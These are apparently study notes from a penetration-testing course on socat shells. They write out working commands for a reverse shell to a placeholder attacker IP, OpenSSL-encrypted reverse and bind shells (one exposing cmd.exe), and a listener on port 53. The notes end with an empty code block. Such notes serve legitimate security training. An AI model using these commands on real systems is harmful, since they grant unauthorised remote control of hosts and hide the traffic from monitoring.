 ```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
* Socat connects a listening port and a file.
  * Passing in the current TTY as a file and setting the echo to be zero.
  * Equivalent to using the `Ctrl+Z`, `stty raw -echo; fg` trick with a netcat shell.
* First listener can be connected to with any payload.
* Special listener must be activated with a very specific socat command.
  * Most hosts do not have socat installed by default.
  * Upload precompiled socat binary that can then be executed as normal.
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
* Create an interactive bash session.
```
EXEC:"bash -li".
```
* Pass arguments.
```
pty, stderr, sigint, setsid and sane:
```
* `pty` allocates a pseudoterminal on the target.
  * Part of the stabilisation process.
* `stderr` makes sure that any error messages get shown in the shell.
  * Often a problem with non-interactive shells.
* `sigint` passes any `Ctrl+C` commands through into the sub-process allowing commands to be killed inside the shell.
* `setsid` creates the process in a new session.
* `sane` stabilises the terminal attempting to 'normalise' it.

### Socat Encrypted Shells
* Any TCP commands replaced with OPENSSL.
* Generate certificate on attack host to use encrypted shells.
  * 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year.
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
* Merge the two created files into a single .pem file.
```
cat shell.key shell.crt > shell.pem
```
* Set up reverse shell listener on attack host.
  * Creates OPENSSL listener using the generated certificate.
  * `verify=0` tells connection not to bother validating that the certificate has been properly signed by a recognised authority.
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
* Syntax to connect back from target host.
```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```
* For a bind shell.
* Create listener on target host.
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
* Syntax for setting up OPENSSL-LISTENER using tty technique.
  * Use port 53 and a PEM file called "encrypt.pem"
```
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```
* Connect from attack host.
```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
* Syntax to use to connect back to tty listener if attack host IP is 10.10.10.5.
```
```